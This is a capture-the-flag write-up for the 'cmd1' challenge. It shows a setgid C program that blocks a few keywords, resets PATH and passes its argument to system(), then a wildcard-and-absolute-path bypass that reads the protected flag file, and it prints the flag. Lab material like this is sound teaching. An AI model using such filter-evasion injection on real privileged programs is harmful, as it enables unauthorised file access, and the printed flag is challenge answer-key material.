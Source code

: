 ```yaml
---
custom_edit_url: null
sidebar_position: 12
---
```


> Mommy! what is PATH environment in Linux?

## File properties

```
cmd1@ubuntu:~$ file ./cmd1
./cmd1: setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=38e83bafff424226079859e0fe26757437e79a2d, for GNU/Linux 3.2.0, not stripped
```

## Source code

```c title="cmd1.c"
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/thankyouverymuch");
    if(filter(argv[1])) return 0;
    setregid(getegid(), getegid());
    system( argv[1] );
    return 0;
}
```

Theprogram sets the `$PATH` environment variable to `/thankyouverymuch`, and checks if the user input contains the following:
  - `flag`
  - `sh`
  - `tmp`

If it does, the program returns early.

Otherwise, it executes the argument using `system()`.

### [`system`](https://man7.org/linux/man-pages/man3/system.3.html)

```c
int system(const char *command);
```

The `system()` function essentially executes the argument that is passed to it. 
So, the user's input will be executed by `system()`.

The easiest way to solve this challenge is to use wildcard (`*`) character.

We can simply `cat` out `fla*`, and since it does not get caught in any filter, we should be good.

```
cmd1@ubuntu:~$ ./cmd1 "cat fla*"
sh: 1: cat: not found
```

This is because the program overwrites the `$PATH` env variable.

Ideally this is what it looks like.

```
cmd1@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

When `cat` is run, each of paths are prepended to it once by one. 
Wherever, `cat` is located in the system, that path will work.

Let's check it is located.

```
cmd1@ubuntu:~$ which cat
/usr/bin/cat
```

Now that we know the location, we can easily provide the entire path in the argument, so that the `$PATH` env variable does not come into use.

```
cmd1@ubuntu:~$ ./cmd1 "/usr/bin/cat fla*"
PATH_environment?_Now_I_really_g3t_it,_mommy!
```

There are a TON of other way to solve this challenge.

